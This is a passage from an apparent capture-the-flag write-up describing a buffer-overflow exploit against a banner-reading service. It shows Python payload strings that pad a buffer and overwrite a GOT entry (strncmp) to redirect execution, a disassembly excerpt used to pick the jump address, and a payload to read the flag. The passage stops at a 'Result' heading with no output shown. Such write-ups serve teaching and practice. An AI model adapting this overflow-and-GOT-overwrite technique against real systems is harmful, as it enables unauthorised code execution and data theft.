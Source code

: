 As the overflow occurs when reading a banner, we'll need a fake one to overflow
while not getting an error for not knowing the password.

Once a known banner is available, we read it using the following stack:

```python
"%s\0%s" % (known_file, password) + \
"\0" * (BUF_SIZE - len(known_file) - len(password) - 1 + 4 - 4) + \
"\xcc\xd1\x05\x08"
```

* The start of the string is here to successfully read the file.
* The next line is used to fill the buffer area.
  - `-1` is for the null-byte between the filename and the password
  - `-4` is for the initial `flg_` present in the buffer
  - `+4` is to reach the `second_person` area.
* `"\xcc\xd1\x05\x08"` is the address of `strncmp` GOT entry.

Now that `second_person` is overriden, we need to assign a value to it (as the
value is stored in the first word of the structure). This value should be the
address of the inside of the _if_ statement, where the line is printed.

A quick disassembling of the program gives us the address `0x0804af80`:

```
804af62:       e8 e9 de ff ff          call   8048e50 <strncmp@plt>
804af67:       85 c0                   test   %eax,%eax
804af69:       75 38                   jne    804afa3 <yyparse+0x2004>
804af6b:       8b 95 a8 f7 ff ff       mov    -0x858(%ebp),%edx
804af71:       8b 85 a4 f7 ff ff       mov    -0x85c(%ebp),%eax
804af77:       01 d0                   add    %edx,%eax
804af79:       0f b6 00                movzbl (%eax),%eax
804af7c:       3c 3a                   cmp    $0x3a,%al
804af7e:       75 23                   jne    804afa3 <yyparse+0x2004>
804af80:       8b 85 a8 f7 ff ff       mov    -0x858(%ebp),%eax
804af86:       8b 95 a4 f7 ff ff       mov    -0x85c(%ebp),%edx
804af8c:       83 c2 01                add    $0x1,%edx
804af8f:       01 d0                   add    %edx,%eax
804af91:       89 44 24 04             mov    %eax,0x4(%esp)
804af95:       c7 04 24 f4 26 05 08    movl   $0x80526f4,(%esp)
804af9c:       e8 ef db ff ff          call   8048b90 <printf@plt>
804afa1:       eb 0c                   jmp    804afaf <yyparse+0x2010>
```

### Reading the stolen flag

This is the easy part. Just need to provide a `Give me your banner.` with the
stack having the string:

```python
"%s\0%s" % (flag_id, a_non_empty_string)
```

### Result

Here is the output a such a scenario:
